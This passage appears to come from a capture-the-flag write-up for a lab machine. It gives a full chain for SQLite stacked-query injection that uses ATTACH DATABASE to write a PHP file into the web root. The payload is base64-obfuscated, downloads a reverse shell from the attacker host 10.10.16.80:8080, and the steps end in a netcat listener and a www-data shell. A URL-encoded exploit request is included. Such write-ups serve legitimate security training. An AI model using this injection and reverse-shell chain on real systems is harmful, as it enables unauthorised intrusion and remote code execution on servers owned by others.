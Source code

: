 
Our only way is about `eval`, but after I checked the reverse shell of pentestmonkey, I changed my mind to directly use it. Remove unnecessary part to minify the file, then just write a script to let it download trojan for us.

Same way, but you need some scripting:

```
1; ATTACH DATABASE `/var/www/html/dev/d9e28afcf0b274a5e0542abb67db0784/lo7l.php` AS l7ol; CREATE TABLE l7ol.pwn (dataz text); INSERT INTO l7ol.pwn (dataz) VALUES ("<?php $a1 = base64_decode('aHR0cDovLzEwLjEwLjE2LjgwOjgwODAvcGhwcmN2LnBocA=='); $h2 = file_get_contents($a1); if($h2 === false){echo 1941;} $fileName = base64_decode('L3Zhci93d3cvaHRtbC9kZXYvZDllMjhhZmNmMGIyNzRhNWUwNTQyYWJiNjdkYjA3ODQvY2FsbHVwdC5waHA='); $save = file_put_contents($fileName, $h2); ?>");
```

PHP code here is:
```php
<?php 
    $a1 = base64_decode('aHR0cDovLzEwLjEwLjE2LjgwOjgwODAvcGhwcmN2LnBocA=='); 
    // base64-encoded: http://10.10.16.80:8080/phprcv.php
    $h2 = file_get_contents($a1); 
    if($h2 === false){
        echo 1941;
    } 
    $fileName = base64_decode('L3Zhci93d3cvaHRtbC9kZXYvZDllMjhhZmNmMGIyNzRhNWUwNTQyYWJiNjdkYjA3ODQvY2FsbHVwdC5waHA='); 
    // base64-encoded: /var/www/html/dev/d9e28afcf0b274a5e0542abb67db0784/callupt.php
    $save = file_put_contents($fileName, $h2); 
?>
```

Urlencode you param:

```
http://127.0.0.1/dev/index.php?view=sqlite_test_page&no_results=true&bookid=1%3b+ATTACH+DATABASE+%60%2fvar%2fwww%2fhtml%2fdev%2fd9e28afcf0b274a5e0542abb67db0784%2flo7l.php%60+AS+l7ol%3b+CREATE+TABLE+l7ol.pwn+(dataz+text)%3b+INSERT+INTO+l7ol.pwn+(dataz)+VALUES+(%22%3c%3fphp+%24a1+%3d+base64_decode(%27aHR0cDovLzEwLjEwLjE2LjgwOjgwODAvcGhwcmN2LnBocA%3d%3d%27)%3b+%24h2+%3d+file_get_contents(%24a1)%3b+if(%24h2+%3d%3d%3d+false)%7becho+1941%3b%7d+%24fileName+%3d+base64_decode(%27L3Zhci93d3cvaHRtbC9kZXYvZDllMjhhZmNmMGIyNzRhNWUwNTQyYWJiNjdkYjA3ODQvY2FsbHVwdC5waHA%3d%27)%3b+%24save+%3d+file_put_contents(%24fileName%2c+%24h2)%3b+%3f%3e%22)%3b
```

Finally, you should set up a webserver on your port 8080, and put the php reverse shell we just modified in a file called `phprcv.php`, and set up netcat at port 15500, don't forget to modify the host and port in php reverse shell before you save. Call them in order in encryptor:

```
http://127.0.0.1/dev/d9e28afcf0b274a5e0542abb67db0784/lo7l.php
http://127.0.0.1/dev/d9e28afcf0b274a5e0542abb67db0784/callupt.php
```

You get a shell as `www-data`.

## User - RCE

After you have a reverse shell, check `/etc/passwd`, found user: `rijndael`.
